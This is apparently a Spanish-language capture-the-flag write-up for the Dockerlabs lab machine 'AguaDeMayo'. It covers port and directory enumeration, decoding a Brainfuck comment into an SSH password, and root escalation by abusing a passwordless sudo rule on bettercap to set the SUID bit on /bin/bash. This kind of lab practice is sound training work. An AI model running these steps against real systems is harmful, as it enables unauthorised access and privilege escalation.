







# Writeup: AguaDeMayo &mdash; Dockerlabs
- **Dificultad:** Fácil
- **Plataforma:** Dockerlabs
- **IP Objetivo:** 172.17.0.2
- **Técnicas Clave:** Enumeración de puertos, Análisis de código fuente, Decodificación *BrainFuck*, Fuzzing de directorios, Fuga de información, Intrusión SSH, Escalada de privilegios

___
### Reconocimiento y Escaneo de Puertos
Se realizó un escaneo completo de puertos TCP sobre la máquina objetivo:

        $ nmap -p- --open -sS -sC -sV 172.17.0.2 -n -Pn

    

#### Puertos descubiertos:
- **22/tcp** &mdash; Servicio de administración remota
- **80/tcp** &mdash; Servidor web expuesto

___
### Enumeración Web y Análisis de Código Fuente
Se realizó una petición con ```curl``` hacia la raíz del servidor web para examinar la respuesta inicial:

        $ curl -s http://172.17.0.2/

    

Al inspeccionar el final del código fuente de la página por defecto de Apache, se identificó un comentario que contenía una cadena codificada en lenguaje esotérico *Brainfuck*:

        ++++++++++[>++++++++++>+++++++++++>+++++++++++>+++++++++++>+++++++++++>+++++++++++>+++++++++++>+++++++++++>+++++++++++>+++++++++++>+++++++++++>+++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----.>--.>+>>>.

Se procedió a decodificar la cadena utilizando una herramienta web, obteniendo el siguiente texto:

        bebeaguaqueessano

    

De forma paralela, se llevó a cabo una fase de fuzzing de directorios mediante ```gobuster```:

        $ gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -x php,html,txt,sh,py,bak --exclude-length 275

    

#### Rutas descubiertas:
- **/images/ (status: 301):** Directorio expuesto en el servidor web.

Al inspeccionar el directorio ```/images/```, se encontró un archivo llamado ```agua_ssh.jpg```.



Correlacionando el nombre del archivo y el texto decodificado de *Brainfuck*, se dedujo el siguiente conjunto de credenciales:
- **Usuario:** ```agua```
- **Contraseña:** ```bebeaguaqueessano```

___
### Acceso Inicial (SSH)
Utilizando las credenciales obtenidas, se estableció una sesión remota mediante SSH hacia la máquina objetivo:

        $ ssh agua@172.17.0.2

    

Se confirmó el acceso inicial al sistema bajo el contexto del usuario ```agua```.

___
### Escalada de Privilegios
Se listaron los permisos delegados mediante ```sudo -l``` para el usuario actual, obteniendo como resultado:

        (root) NOPASSWD: /usr/bin/bettercap

Se identificó que dicho binario podía ejecutarse como superusuario sin requerir contraseña.

Al acceder a la interfaz interactiva de *Bettercap*, se aprovechó la funcionalidad de ejecución de comandos del sistema mediante el prefijo ```!``` para asignar permisos SUID al binario ```/bin/bash```:

        $ sudo /usr/bin/bettercap
        $ bettercap>> ! chmod u+s /bin/bash
        $ bettercap>> ^C

    

Una vez modificado el binario, se salió de *Bettercap* y se ejecutó ```bash``` en modo privilegiado para asumir los permisos efectivos de root:

        $ /bin/bash -p

Se comprobó la obtención de privilegios de superusuario mediante ```whoami && id```, confirmando el compromiso total de la máquina.
